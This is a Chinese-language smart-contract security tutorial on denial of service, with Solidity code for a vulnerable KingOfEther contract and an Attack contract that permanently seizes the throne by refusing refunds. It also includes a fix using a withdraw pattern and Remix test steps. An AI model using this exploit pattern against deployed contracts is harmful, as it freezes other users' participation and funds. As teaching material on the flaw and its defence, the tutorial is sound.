


# 72.Denial of Service
## 漏洞
攻击智能合约使其无法使用的方法有很多种。
我们在这里介绍的一种利用是通过让发送以太币的函数失败来实现拒绝服务。
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

/*
KingOfEther的目标是通过发送比前任国王更多的以太币来成为国王。前任国王将获得他发送的以太币的退款。
*/

/*
1. 部署KingOfEther。
2. Alice通过发送1 以太币来调用claimThrone()函数成为了国王。
3. Bob通过发送2 以太币来调用claimThrone()函数成为了国王。Alice收到了1 以太币的退款。
4. 部署Attack合约并将KingOfEther的地址作为参数。
5. 调用attack函数并发送3 以太币。
6. 当前的国王是Attack合约，没有人可以成为新的国王。

发生了什么？
Attack成为了国王。所有试图夺取王位的新挑战都将被拒绝，因为Attack合约没有回退函数，拒绝接受在新国王产生之前从KingOfEther发送的以太币。
*/

contract KingOfEther {
    address public king;
    uint public balance;

    function claimThrone() external payable {
        require(msg.value > balance, "Need to pay more to become the king");

        (bool sent, ) = king.call{value: balance}("");
        require(sent, "Failed to send Ether");

        balance = msg.value;
        king = msg.sender;
    }
}

contract Attack {
    KingOfEther kingOfEther;

    constructor(KingOfEther _kingOfEther) {
        kingOfEther = KingOfEther(_kingOfEther);
    }

    // 你还可以通过使用assert消耗所有的燃料来执行DOS攻击。
    // 即使调用合约没有检查调用是否成功，此攻击也会起作用。
    // function () external payable {
    //     assert(false);
    // }

    function attack() public payable {
        kingOfEther.claimThrone{value: msg.value}();
    }
}
```
## 预防性技术
防止这种情况的一种方法是允许用户撤回他们的以太币而不是发送它。
以下是一个例子。
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

contract KingOfEther {
    address public king;
    uint public balance;
    mapping(address => uint) public balances;

    function claimThrone() external payable {
        require(msg.value > balance, "Need to pay more to become the king");

        balances[king] += balance;

        balance = msg.value;
        king = msg.sender;
    }

    function withdraw() public {
        require(msg.sender != king, "Current king cannot withdraw");

        uint amount = balances[msg.sender];
        balances[msg.sender] = 0;

        (bool sent, ) = msg.sender.call{value: amount}("");
        require(sent, "Failed to send Ether");
    }
}
```

# remix验证
部署合约KingOfEther，1地址通过发送1 以太币来调用claimThrone()函数成为了国王。

2地址通过发送2 以太币来调用claimThrone()函数成为了国王。1地址收到了1 以太币的退款。

部署Attack合约并将KingOfEther的地址作为参数。调用attack函数并发送3 以太币。当前的国王是Attack合约。

